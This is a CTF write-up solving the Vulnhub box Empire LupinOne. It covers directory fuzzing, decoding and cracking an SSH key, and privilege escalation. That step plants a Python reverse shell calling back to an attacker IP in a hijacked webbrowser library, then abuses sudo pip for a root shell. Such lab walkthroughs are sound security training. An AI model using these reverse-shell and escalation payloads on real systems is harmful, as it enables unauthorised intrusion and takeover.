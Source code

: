 ```yaml
---
title: Vulnhub - Empire LupinOne Writeup
date: 2022-02-10 10:00:00 +0530
categories: [Vulnhub]
tags: [vulnhub, john, ffuf, medium, privlege-escalation]
---
```

## Intro  

[LupinOne](https://www.vulnhub.com/entry/empire-lupinone,750/) is a medium box freely available on [vulnhub](https://www.vulnhub.com/) website. The author of the box describes it as a CTF styled box and mentions it requires as much enumeration as possible. And as usual, we can expect two flags:
* User flag
* Root flag  

So let's start!

To begin with, we will start a quick nmap scan to identify all the open ports and possibly all the services which are running on those open ports as well. I like to use the following tags and scan all the open ports on the machine. It might be time consuming but it is better to be thorough than missing something crucial. And moreover the box description asks us to enumerate as much as we can.  

```
nmap -sC -sV -p- --open -oN nmap_scan 10.0.2.8
```
Here is a quick description of all the tags used - 
* -sC: Instrcut nmap to use all the default scripts
* -sV: Help identifying the services running on the open ports
* -p: Specify which port range to scan. Adding '-' at the end will scan all the ports
* --open: Only show open ports
* -oN: Specify output file

![nmap_scan](/assets/lupinone/nmap.png)

In the above scan we can see that there are two different ports open - 
1. 22: Running regular SSH service
2. 80: Running an apache web server

And we can also see that there is a disallowed entry in the robots.txt file:
* ~myfile

First let's check out the website on port 80 and then we will move on to the disallowed directory.  
![lupin_web](/assets/lupinone/lupin_web.png)

The website has nothing out of the ordinary, just an image. It's time to check out the myfiles directory.  
![myfiles](/assets/lupinone/error_404.png)

And we are greeted with an error 404 message.
This is probably the most confusing and time consuming part I dealt with in this box. So '~' symbol was used to denote the home directory of the user. And following similar patterns we can look for other directories as well. We'll use ffuf for the fuzzing part this time around.  
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.0.2.8/~FUZZ  -fc 403
```
Here is a quick description of all the tags used - 
* -w: Allows us to supply our custom wordlist
* -fc: Removes the directory with error code 403  

And quickly enough, we found a secret directory.  
![ffuf_1](/assets/lupinone/ffuf_1.png)

Now visiting this page we are greeted with a friendly message.  
![secret](/assets/lupinone/secret.png)

Now, from this page we can deduce three things:
* There is a ssh key hidden somewhere
* We can crack the password to that private ssh key using fasttrack wordlist
* The username is icex64

Next, we have more directory enumeration on our plate. Usually hidden files start with a dot in Unix operating systems, so following the trends of the directory enumeration, we can try that in our enumeration process as well. And luckily enough it was how the secret file was hidden.
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.0.2.8/~secret/.FUZZ -e .php,.txt,.html -fc 403
```
![mysecret](/assets/lupinone/mysecret.png)

We seem to have stumbled upon another hit. Let's check the file out. 

![id_rsa_enc](/assets/lupinone/id_encrypt.png)

It seems to be the secret directory which the previous page was talking about but it seems to be in an encoded form. Since it's not the basic base64 encoding, we can use [dcode.fr](https://www.dcode.fr/cipher-identifier) to analyse the encoding algorithm.  

![dcode](/assets/lupinone/dcode.png)

It's base58 encoded. So let's head over to our trusty [cyberchef](https://gchq.github.io/CyberChef/) and get our decoded key.  

![cyberchef](/assets/lupinone/cyberchef.png)

I saved the file as id_rsa. And before we could use it with SSH, we need to set appropriate permissions
```
chmod 600 id_rsa
```
Using ssh2john we can convert the private key to a format which can be easily processed by johntheripper.

```
ssh2john id_rsa > john_id
```
Next, the only thing left for us to do is to crack the passphrase using the fasttrack wordlist(earlier hinted on the secret page)

```
john john_id --wordlist=/usr/share/wordlists/fasttrack.txt
```
![john_pass](/assets/lupinone/john_pass.png)

And just like that we got the passphrase. Next up time to get the initial foothold on the system!
We will use the user icex which was previously hinted on the secret page and use the password which we obtained using John.  
```
ssh icex64@10.0.2.8 -i id_rsa
```
In the icex64 user's directory we can see the user flag.  

![user](/assets/lupinone/user.png)

"sudo -l" is probably one of the first commands I use whenever I get initial access to the system. What it does is, let us know what commands can our current user run as superuser(root) or some other user.  
```
sudo -l
```
![sudo_l](/assets/lupinone/sudo_l.png)

Running the above command we can see that our user can execute a python file called heist.py as arsene user and it is located in the user arsene's home directory.
Checking the contents of the file we can see that we are invoking the webbrowser library and performing an action.

![hesit](/assets/lupinone/heist.png)

Our current user can not tamper with the file in any way as we can see in the below screenshot.  

![file_perm](/assets/lupinone/file_perm.png)

Let's check out the webbrowser library then. Usually python libraries will be found in /usr/lib directory.  

```
ls -la /usr/lib/python3.9 | grep webbrowser
```
![webbrowser](/assets/lupinone/webbrowser.png)

And it seems that we found a way to switch to arsene user. We can easily modify the webbrowser.py file and gain a reverse shell from the system.  

![revshell](/assets/lupinone/rev_shell.png)

We can just add a very basic python reverse shell. I used the following code
```
import pty,socket;s=socket.socket();s.connect(("10.0.2.5",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
Make sure your listener is running on your host system before executing the file!
```
nc -lvnp 9001
```
We can use the following command to run the heist.py file as the arsene user

```
sudo -u arsene python3.9 /home/arsene/heist.py
```
And we got a reverse shell back on our system

![arsene](/assets/lupinone/arsene.png)

I used the following commands to stablise the shell

```
python3.9 -c 'import pty;pty.spawn("/bin/bash")' # After this press CTRL+Z to background the process
stty raw -echo;fg;reset
```

And once again we will start by using sudo -l as the arsene user

![sudo_l_arsene](/assets/lupinone/sudo_l_arsene.png)

We can see that our user can run pip command as sudo. Knowing this, we are only a few steps away from reaching the root user. For this step we can use [gtfobins](https://gtfobins.github.io). It contains a list of linux binaries which we can use to bypass restrictions and use them in the privilege escalation phase. The following commands(source - [gtfobins](https://gtfobins.github.io)) will allow us to use pip and reach the root user.  

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![rooted](/assets/lupinone/rooted.png)

With this we have completed the LunpinOne box.